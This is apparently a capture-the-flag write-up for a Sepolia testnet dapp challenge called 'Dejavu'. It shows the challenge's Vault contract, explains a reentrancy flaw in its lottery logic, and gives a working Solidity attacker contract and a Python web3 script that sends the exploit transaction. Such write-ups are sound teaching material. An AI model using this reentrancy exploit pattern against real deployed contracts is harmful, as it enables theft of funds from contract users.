 ### Dejavu
![Dejavu CTFD](../.assets/dejavu_1.png)

The landing page of the webapp hints at a crypto website with the Connect Wallet button. The page's source code also hints at it being EVM based with the use of ethersjs

![Dejavu landing](../.assets/dejavu_2.png)

Opening a wallet provider (Metamask) and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `Buy Flag` reveals the user must own 1e20 Haxor token, which costs 200 ETH

![dapp](../.assets/dejavu_4.png)

Searching for a the EVM wallet address format reveals a contract address (ca).

![devtools](../.assets/dejavu_5.png)

Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x1dd48718c62f2249c25b85c691cabe2f4d5d9cba) reveals the contract source code.

```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.8.25;

contract Vault {
    address private owner;
    mapping (address => uint256) private userBalances;
    mapping (address => bool) public willWin;
    mapping (address => address) private linkWallet;
    uint8 public TOKEN_PRICE = 2 wei;
    string public constant name = "Haxor";

    modifier noReentrant() {
      //Safe norentrancey modifier
      }

    function linkPayoutAddress(address newWallet) external payable {
        linkWallet[msg.sender] = newWallet;
    }

    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );
        userBalances[msg.sender] += _tokenToBuy;
        willWin[msg.sender] = false;
    }

    function sellall() external noReentrant {
        uint256 etherToTransfer = userBalances[msg.sender] * TOKEN_PRICE;
        require(etherToTransfer >= 0, "Insufficient balance");
        require(address(this).balance >= etherToTransfer, "Not enough eth on contract");
        willWin[msg.sender] = true; // only allow user win when they have 0 tokens lol
        (bool success, ) = msg.sender.call{value: etherToTransfer}(""); // this triggers the receive() function on exploit contract
        require(success, "Failed to send Ether");
        userBalances[msg.sender] = 0; // User haxor token balance is only set to 0 AFTER an external call has been mmade
    }

    function joinLottery() external {
        require(userBalances[msg.sender] >= 0, "Insufficient balance");
        require(linkWallet[msg.sender] != address(0), "Payout address not set");
        userBalances[msg.sender] = 0;
        if (willWin[msg.sender] == false){
        } else {
            userBalances[address(linkWallet[msg.sender])] += 100000000000000000000;
        }
    }
}
```
A smart contract that allows accounts buy tokens (at a fixed 2Wei price), sell tokens, and join the lottery. 

The Important things to note from the code are:
1. While the contract might seem vulnerable to an integer overflow attack via the unsafe multiplication in the buy function, it should be noted that for solidity 0.8.0 and above the [arithmetic operations revert on underflow and overflow](https://docs.soliditylang.org/en/v0.8.25/080-breaking-changes.html)
2. The contract's lottery is rigged to make the player lose by setting `willWin` value to `false` when user purchases tokens and to `true` after user has lost all their tokens
3. Winning the lottery adds `1e20` to the user balance
3. An external call is made with `(bool success, ) = msg.sender.call{value: etherToTransfer}("")`
4. `willWin` is set to true before the external call is made
5. The `sellall` function in not vulnerable to reentrancy attacks due to the `noReentrant` modifier
6. The `joinLottery` is vulnerable to reentrancy 

A reentrancy attack in Solidity occurs when a contract calls back into itself or another contract before completing its initial execution, potentially allowing unexpected behavior or manipulation of state variables.

An exploit contract is quickly spun up using [remix-ide](https://remix.ethereum.org/)

```solidity
pragma solidity ^0.8.25;

interface IEtherVault {
    function linkPayoutAddress(address newWallet) external payable;
    function buy(uint256 _tokenToBuy) external payable;
    function sellall() external;
    function joinLottery() external;
} 

contract Attacker{
    IEtherVault public immutable etherVault;
    constructor(IEtherVault _etherVault) {
        etherVault = _etherVault; // vault ca at defined at contract deployment
    }

    function attackInit(address payoutAddress) external payable { 
        require(msg.value >= 2 wei, "Too low"); // Each haxor token costs 2 wei
        etherVault.linkPayoutAddress(payoutAddress); // Set attacker wallet as payout address
        etherVault.buy{value: 2 wei}(uint256(1)); // Buy 1 haxor token
        etherVault.sellall(); // Sell all haxor token
    }
    receive() external payable { // This is function triggered by (bool success, ) = msg.sender.call{value: etherToTransfer}("") in vault contract
        etherVault.joinLottery(); // Join the lottery. Note that willWin[msg.sender] has already been set to true 
    }
}
```
To execute the contract functions, a quick python3 script is created

```python
contract_abi = [] # ABI of exploit contract from remix
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") # user wallet private keys
CONTRACT_ADDRESS = Web3.to_checksum_address("") # Exploit contract address 0xabb0739ce308f2faeae23a6e70c3bce7090a709a
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1)
AMT_TO_SPEND = 3 # Must be > 2wei

raw_data = TOKEN_CONTRACT.encodeABI("attackInit", args=[user_wallet.address]) # user wallet as payoutAddress
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": AMT_TO_SPEND,
            "gas": 210_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.toHex(txn_hash))
```

After confirming the transaction and refreshing the webapp, clicking the `Buy Flag` button reveals the flag
![devtools](../.assets/dejavu_6.png)
